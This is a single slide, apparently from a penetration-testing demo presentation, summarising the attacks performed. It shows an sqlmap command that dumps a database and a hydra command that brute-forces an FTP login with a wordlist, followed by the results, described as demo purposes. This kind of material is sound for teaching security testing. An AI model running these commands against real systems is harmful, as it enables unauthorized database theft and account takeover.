

# Exploitation & Database Access
Attacks Performed:

 SQLMap to dump database:
  sqlmap -u "http://site.com?id=1" --dump
 Hydra to brute-force FTP:
  hydra -l admin -P rockyou.txt ftp://IP
 Manual Login Panel Attack: Using guessed/default passwords
  Result:
 Gained access to sample DB
 Got weak login credentials (demo purposes)